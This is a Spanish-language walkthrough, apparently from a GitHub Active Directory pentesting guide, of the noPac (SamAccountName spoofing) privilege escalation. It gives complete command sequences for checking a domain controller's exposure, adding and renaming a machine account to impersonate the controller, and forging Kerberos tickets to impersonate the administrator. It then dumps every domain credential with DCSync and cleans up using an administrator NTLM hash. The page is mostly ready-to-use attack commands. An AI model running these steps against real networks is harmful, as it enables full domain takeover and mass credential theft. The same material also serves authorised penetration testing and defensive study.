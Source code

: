 # SamAccountName (nopac)

Para este ataque se va a añadir un ordenador, borrar el SPN de ese ordenador, renombrar el ordenador con el mismo nombre que el DC, obtener un TGT para ese ordenador, restablecer el nombre del ordenador a su nombre original, obtener un ticket de servicio con el TGT que obtuvimos anteriormente y finalmente dcsync :)


```Bash
# Comprobamos que el equipo es vulnerable a nopac
poetry run crackmapexec smb <ip del DC> -u <user> -p <pass> -M nopac
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac1.png?raw=true "Check NoPac")

```Bash
# Necesitamos una versión específica de impacket para los scripts renameMachine.py y getST.py (En exegol ya viene preinstalada)
git clone https://github.com/SecureAuthCorp/impacket myimpacket
cd myimpacket
git fetch origin pull/1224/head:1224
git fetch origin pull/1202/head:1202
git merge 1202
git merge 1224
cd ..
git clone https://github.com/dirkjanm/krbrelayx
```

Proceso de ejecución:

```Bash
# Añadimos un nuevo equipo
python addcomputer.py -computer-name 'samaccountname$' -computer-pass 'ComputerPassword' -dc-host <nombre completo del DC en el dominio> -domain-netbios <dominio> '<dominio>/<user>:<pass>'
# Borramos el SPN del equipo con el script que debemos sacar del repositorio de GitHub: https://github.com/dirkjanm/krbrelayx
python addspn.py --clear -t 'samaccountname$' -u '<dominio>/<user>' -p 'pass' '<nombre completo del DC en el dominio>'
# Renombrar el nuevo equipo con el nombre del DC
python renameMachine.py -current-name 'samaccountname$' -new-name '<nombre DC>' -dc-ip '<nombre completo del DC en el dominio>' <dominio>/<user>:<pass>
# Obtenemos el TGT
python getTGT.py -dc-ip '<nombre completo del DC en el dominio>' '<dominio>'/'<nombre DC (nuevo equipo)>':'<pass equipo>'
# Devolvemos el nuevo equipo al nombre original
python renameMachine.py -current-name '<nombre DC (nuevo equipo)>' -new-name 'samaccountname$' <dominio>/<user>:<pass>
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac2.png?raw=true "NoPac manual 1")
```Bash
# Obtenemos el ST (service ticket) con S4U2self usando el TGT previo
export KRB5CCNAME=<nombre DC (nuevo equipo)>.ccache
python getST.py -self -impersonate 'administrator' -altservice 'CIFS/<nombre completo del DC en el dominio>' -k -no-pass -dc-ip '<nombre completo del DC en el dominio>' '<dominio>'/'<nombre DC (nuevo equipo)>' -debug
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac3.png?raw=true "NoPac manual 2")
```Bash
# DCSync presentando el ST
export KRB5CCNAME=administrator@CIFS_<nombre completo del DC en el dominio>@<dominio completo>.ccache
python secretsdump.py -k -no-pass -dc-ip '<nombre completo del DC en el dominio>' @'<nombre completo del DC en el dominio>'
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac4.png?raw=true "NoPac manual 3")
```Bash
# Eliminamos el equipo creado
python addcomputer.py -computer-name 'samaccountname$' -delete -dc-host <nombre completo del DC en el dominio> -domain-netbios <dominio> -hashes 'aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4' '<dominio>/Administrator'
```
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/valid_credentials/nopac/files/nopac5.png?raw=true "NoPac manual 4")

